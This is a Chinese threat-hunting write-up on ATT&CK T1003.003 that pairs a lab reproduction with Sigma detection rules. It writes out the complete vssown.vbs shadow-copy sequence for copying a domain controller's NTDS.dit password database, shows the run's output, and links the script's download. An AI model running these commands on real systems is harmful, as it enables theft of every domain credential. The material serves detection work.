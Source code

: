 # T1003-003-win-使用vssown.vbs获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。

卷影复制

secretsdump.py

使用内置的Windows工具ntdsutil.exe

调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2016+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```dos
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\
cscript vssown.vbs /delete
```

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Users\Administrator\Desktop\test>cscript vssown.vbs /start
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Signal sent to start the VSS service.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /create c
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Attempting to create a shadow copy.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /list
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

SHADOW COPIES
=============

[*] ID:                  {42C8E0BD-6FD9-4CFB-B006-4640DAE84DC8}
[*] Client accessible:   True
[*] Count:               1
[*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[*] Differential:        True
[*] Exposed locally:     False
[*] Exposed name:
[*] Exposed remotely:    False
[*] Hardware assisted:   False
[*] Imported:            False
[*] No auto release:     True
[*] Not surfaced:        False
[*] No writers:          True
[*] Originating machine: ICBC.abcc.org
[*] Persistent:          True
[*] Plex:                False
[*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
[*] Service machine:     ICBC.abcc.org
[*] Set ID:              {584C48BF-649D-4B35-9CAE-3165C2C8BE53}
[*] State:               12
[*] Transportable:       False
[*] Volume name:         \\?\Volume{16da2094-7213-420f-a023-db7b3e3a7f6f}\


C:\Users\Administrator\Desktop\test>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\
已复制         1 个文件。

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /delete
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。
```

## 测试留痕

测试留痕日志下载地址：<https://github.com/12306Bro/Threathunting-book/blob/master/Eventdata/vssown.evtx>

## 检测规则/思路

### sigma规则

```yml
title: 使用vssown.vbs拿到NTDS.dit文件
description: windows server 2016+ AD域控
tags: T1003-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        New processname: C:\Windows\System32\cscript.exe
        Process commandline:
           - cscript  *.vbs /start #基于命令行检测
           - cscript  *.vbs /create c #基于命令行检测
           - cscript  *.vbs /delete #基于命令行检测
           - cscript  *.vbs /list #基于命令行检测
    condition: selection
---
detection:
    selection1:
        EventID: 4904 #已试图注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    selection2:
        EventID: 8222 #已创建影子副本。
        Process image name: C:\Windows\System32\wbem\WmiPrvSE.exe
        Raw volume: \\?\Volume{*}\ #"*"代表正则匹配
        Shadow device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy* #"*"代表正则匹配
    selection3:
        EventID: 4905 #已试图取消注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    ​timeframe: last 10S #自定义时间范围
    condition: all of them
level: medium
```

### 建议

此检测特征仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

vssown.vbs下载地址

<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

MITRE ATT&CK攻击知识库（企业）中文版

<https://hansight.github.io/#/>

